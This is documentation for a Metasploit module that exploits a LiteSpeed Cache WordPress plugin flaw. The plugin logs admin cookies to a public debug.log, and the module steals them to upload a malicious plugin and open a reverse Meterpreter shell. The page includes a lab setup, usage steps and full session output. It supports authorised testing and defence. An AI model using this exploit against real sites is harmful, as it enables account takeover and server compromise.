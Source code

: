 ## Vulnerable Application
This module exploits an unauthenticated account takeover vulnerability in LiteSpeed Cache, a Wordpress plugin that currently
has around 6 million active installations. In LiteSpeed Cache versions prior to 6.5.0.1, when the Debug Logging
feature is enabled, the plugin will log admin cookies to the /wp-content/debug.log endpoint which is accessible
without authentication. The Debug Logging feature in the plugin is not enabled by default. The admin cookies
found in the debug.log can be used to upload and execute a malicious plugin containing a payload.

### Setup
Spin up a WordPress container with the following docker-compose file:
```yml
version: '3.8'

services:
  db:
    image: mysql:latest
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_password
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress_user
      MYSQL_PASSWORD: example_password

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80" # You can change the port as per your preference
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress_user
      WORDPRESS_DB_PASSWORD: example_password
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
```

Download, install and activate the vulnerable LiteSpeed Cache plugin: https://downloads.wordpress.org/plugin/litespeed-cache.6.3.zip
Once installed a LiteSpeed menu bar item should appear on the left hand side of the application. When clicked a drop down
should appear. Select "ToolBox", then select "Debug Settings". Then switch the "Debug Log" feature to "On".

Sign out of WordPress and when you reauthenticate your admin cookie will be logged to /wp-content/debug.log

## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/wp_litespeed_cookie_theft`
1. Set the `RHOST`, `LHOST` and `RPORT`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress site.

## Scenarios
### ARCH_PHP Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qSNzhabMTP/OiDynMUetY.php...
[*] Sending stage (39927 bytes) to 192.168.1.67
[+] Deleted OiDynMUetY.php
[+] Deleted qSNzhabMTP.php
[+] Deleted ../qSNzhabMTP
[*] Meterpreter session 7 opened (192.168.1.67:4444 -> 192.168.1.67:64935) at 2024-09-11 23:18:14 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 29292f368fe3
OS          : Linux 29292f368fe3 6.10.4-linuxkit #1 SMP PREEMPT_DYNAMIC Mon Aug 12 08:48:58 UTC 2024 x86_64
Meterpreter : php/linux
```

### ARCH_CMD Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/IVStOPtwuq/WvXecICkgw.php...
[*] Sending stage (3045380 bytes) to 192.168.1.67
[+] Deleted WvXecICkgw.php
[+] Deleted IVStOPtwuq.php
[+] Deleted ../IVStOPtwuq
[*] Meterpreter session 6 opened (192.168.1.67:4444 -> 192.168.1.67:64884) at 2024-09-11 23:14:49 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.22.0.3
OS           : Debian 12.5 (Linux 6.10.4-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

